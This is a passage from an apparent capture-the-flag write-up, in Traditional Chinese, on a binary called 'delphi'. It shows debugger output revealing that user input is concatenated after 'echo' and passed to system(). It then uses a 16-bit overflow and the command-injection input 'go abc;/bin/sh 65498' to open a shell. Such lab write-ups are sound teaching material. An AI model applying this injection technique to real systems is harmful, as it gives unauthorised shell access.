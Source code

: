 在 stack 中可以看到 ’echo' 以及第二段輸入 'abc' ，看來是合成 'echo abc' 以後利用 system 執行

```bash
=> 0x7ffff7bd57d7 <check_answer+127>:   call   0x7ffff7bd5650 <strcat@plt>
   0x7ffff7bd57dc <check_answer+132>:   lea    rax,[rbp-0x90]
   0x7ffff7bd57e3 <check_answer+139>:   mov    rdi,rax
   0x7ffff7bd57e6 <check_answer+142>:   call   0x7ffff7bd5630 <system@plt>
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe4f0 --> 0x788170 --> 0x636261 ('abc')
0008| 0x7fffffffe4f8 --> 0x0 
0016| 0x7fffffffe500 --> 0x206f686365 ('echo ')
```

綜合上述，我們應該要使 42 + {number} >= 4

這裡有個有趣的地方，他在取值的時候是使用 WORD (2 bytes) 來取，當這裡的值超過 WORD 上限時就會歸零，我們可以利用這個點來達成上述的條件

```
number = 2^16 - 42 + eax
```

### command injection

前面有看到組合的 'echo abc' ，此時可以利用 `;` 來進行 command injection 來拿到 shell

```bash
$ LD_LIBRARY_PATH=. ./delphi 
Welcome!

Are you ready to play 20 questions? No? Perfect!
I'm thinking of something big, metal, and orange. Go!
> go abc;/bin/sh 65498				# 2^16 - 42 + 4 (eax = 4)
abc
$ ls
delphi  libtwenty.so  peda-session-delphi.txt
$ 
```
